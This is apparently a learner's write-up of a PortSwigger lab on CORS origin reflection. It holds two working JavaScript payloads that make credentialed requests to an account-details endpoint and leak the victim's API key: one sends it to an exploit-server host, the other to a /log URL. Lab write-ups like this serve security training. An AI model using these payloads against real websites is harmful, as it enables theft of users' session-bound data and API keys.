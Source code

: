 # [CORS] Lab: CORS vulnerability with basic origin reflection (1)

---

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20re%2017f3b33a907c4ec49253a7b97cb7e024/Untitled.png)

because the website trusts all origins this means that any request originating from an external domain will be allowed, and these requests will be able to retrieve the user's session tokens and API tokens. 

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20re%2017f3b33a907c4ec49253a7b97cb7e024/Untitled%201.png)

this was the request and responses 

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20re%2017f3b33a907c4ec49253a7b97cb7e024/Untitled%202.png)

I passed the request for `/my-account`  into repeater to test to see if the application would still be able to pass my API Key.

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20re%2017f3b33a907c4ec49253a7b97cb7e024/Untitled%203.png)

```jsx
<script>
  
fetch('https://0a3100c7031da26580c5a339007300a0.web-security-academy.net/accountDetails', {
  mode: 'cors', // Ensure CORS policy is respected
  credentials: 'include' // Send credentials with the request
})
  .then(response => {
    return response.json();
    })
    .then(data => {
      const apiKey = data.apikey; // Assign the correct property name
      const url = `https://exploit-0ada002b037ba2be80fba2d001a8004b.exploit-server.net/?apiKey=${apiKey}`;
      // Ensure the second fetch also respects CORS and includes credentials
      return fetch(url);
    });
  
</script>
```

this worked: 

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20re%2017f3b33a907c4ec49253a7b97cb7e024/Untitled%204.png)

but didn't solve the lab when delivering the exploit to the victim. 

attempt 2: 

```jsx
  var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ad300cc03a661c88115525f003f00d0.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
```

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20re%2017f3b33a907c4ec49253a7b97cb7e024/1a38bfa7-ed95-496b-a3b9-df67b096220a.png)

as you can see I had issue with the portswigger lab but both payloads worked. 

![Untitled](%5BCORS%5D%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20re%2017f3b33a907c4ec49253a7b97cb7e024/Untitled%205.png)